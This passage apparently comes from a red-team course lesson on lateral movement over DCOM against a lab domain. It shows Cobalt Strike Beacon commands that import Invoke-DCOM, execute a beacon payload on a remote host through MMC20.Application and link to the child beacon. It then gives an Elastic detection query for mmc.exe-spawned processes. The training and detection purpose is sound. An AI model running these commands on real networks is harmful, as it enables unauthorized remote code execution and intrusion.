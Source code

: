 Beacon has no built-in capabilities to interact over Distributed Component Object Model (DCOM), so we must use an external tool such as [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1).  We'll see in a later module how this can be integrated into the `jump` command.
```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
Completed

beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.30
```
  

DCOM is more complicated to detect, since each "Method" works in a different way. In the particular case of `MMC20.Application`, the spawned process will be a child of `mmc.exe`.
```
event.category: process and event.type : start and process.parent.name: mmc.exe
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/b6c/cf7/b3b/dcom-mmc.png)

  

Processes started via DCOM may also be observed where the parent is `svchost.exe` with command line arguments of `-k DcomLaunch`.